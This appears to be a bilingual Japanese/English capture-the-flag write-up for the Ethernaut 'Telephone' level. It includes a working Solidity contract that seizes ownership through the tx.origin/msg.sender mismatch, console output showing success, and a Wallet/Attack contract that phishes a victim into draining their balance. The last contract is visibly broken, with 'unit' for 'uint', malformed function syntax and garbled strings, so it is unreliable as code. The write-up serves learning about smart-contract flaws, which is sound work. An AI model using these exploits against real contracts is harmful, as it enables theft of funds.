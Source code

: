 ## Ethernaut-solution

### 4. Telephone 

Claim ownership of the contract below to complete this level.


- Remix IDEのコツ
**prerequsite: <br>
Environmentは必ず 【Injected Web3】でやる<br>
compile時にgas代<br>
deploy時にgas代<br>


まず事前に用意しておいた Telephone.sol をcompile 

TelephoneHack.solを書く,compile => deploy of contract address 
```s
contract.address
'0x6A2449B7f82499832F4Ced39a886c75397c77f61'
```

Contract.owner()でowner addressを確認
```
await contract.owner()
'0x0b6F6CE4BCfB70525A31454292017F640C10c768'
```

Deployed Contractからfunction hackContractを呼び出して
自分のウォレットのアドレスを入力
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

changeOwnerできているか確認。my wallet addressになっていたらsuccess!
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5' //success
```

```solidity
//Telephone.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

//TelephoneHack.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneHack {
    Telephone telContract;

    constructor(address _address) public {
        telContract = Telephone(_address);
    }

    function hackContract(address _address) public {
        telContract.changeOwner(_address);
    }
}
```


While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

An example of a possible attack is outlined below.

Use tx.origin to determine whose tokens to transfer, e.g.
```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
In this scenario, tx.origin will be the victims address (while msg.sender will be the malicious contracts address), 
resulting in the funds being transferred from the victim to the attacker.
```solidity
//PhishingAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*Phishing attack using tx.origin */

//Dale -> Wallet.transfer() (tx.origin = Dale) 
//Dale -> Laura's malicious contract -> Wallet.transfer() (tx.origin = Dale)

contract Wallet {
	address public owner;

	constructor() public { //anyone can deploy 
	owner = msg.sender;
	}

	function deposit() public payable ()

	function transfer(address payable _to, unit _amount) public {//specifier amount 
	require(tx.origin == owner, "Now owner"); //dale withdraw money here, sending transaction

	_to.transfer(_amount); //she can suck out or withdraw all the money inside of this contract
	}

	function getBalance() public view returns(unit) {
	return address(this).balance;
	}
  }

contract Attack {
	address payable public owner;
	Wallet wallet;

	constructor(Wallet _wallet) public {
	wallet = Wallet(_wallet); //Don't write" new" prefix. 
	owner = msg.sender; //laura is gonna be owner
	}

	function attack() public {
	wallet.transfer(owner, address(wallet).balance);//entire balance 
	}//Laura can fool dale calling this attaack, call wallet contract address of wallet.balance
}
```


